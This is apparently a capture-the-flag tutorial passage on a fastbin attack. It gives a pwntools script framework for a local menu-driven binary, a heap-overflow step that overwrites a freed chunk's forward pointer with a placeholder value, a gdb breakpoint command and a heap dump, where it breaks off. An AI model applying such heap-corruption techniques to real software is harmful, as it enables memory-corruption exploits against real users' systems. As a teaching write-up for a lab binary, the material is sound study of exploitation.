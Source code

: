 ## 4.1.3 fastbin attack

Write basic framework
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *
from time import sleep
context.binary = './pwn'
elf = context.binary
libc = elf.libc
p = process('./pwn')

def show():
    p.sendlineafter(':', '1')

def add(length, name):
    p.sendlineafter(':', '2')
    p.sendlineafter(':', str(length))
    p.sendafter(':', name)
    sleep(0.01)

def edit(idx, length, name):
    p.sendlineafter(':', '3')
    p.sendlineafter(':', str(idx))
    p.sendlineafter(':', str(length))
    p.sendafter(':', name)
    sleep(0.01)

def delete(idx):
    p.sendlineafter(':', '4')
    p.sendlineafter(':', str(idx))

p.interactive()
```
add 2 chunks, free chuck2, edit chunk1(heap overflow) to change the fd
```python
add(0x50, '000000')
add(0x50, '111111')

delete(1)
pause()
edit(0, 0x100, flat('x' * 0x50, 0, 0x61, 0xdeadbeef))
```
gdb break set to the read function in edit
``` gdb -q -p `pidof pwn` -ex "b *0x400C05" -ex "c"```
before edit, chunk2 is freed, to fastbin
```
pwndbg> heapbase
heapbase : 0x727000
pwndbg> x/40gx 0x727000
0x727000:	0x0000000000000000	0x0000000000000021
0x727010:	0x0000000000400896	0x00000000004008b1
0x727020:	0x0000000000000000	0x0000000000000061
0x727030:	0x0000303030303030	0x0000000000000000
0x727040:	0x0000000000000000	0x0000000000000000
0x727050:	0x0000000000000000	0x0000000000000000
0x727060:	0x0000000000000000	0x0000000000000000
0x727070:	0x0000000000000000	0x0000000000000000
0x727080:	0x0000000000000000	0x0000000000000061
0x727090:	0x0000000000000000	0x0000000000000000
0x7270a0:	0x0000000000000000	0x0000000000000000
0x7270b0:	0x0000000000000000	0x0000000000000000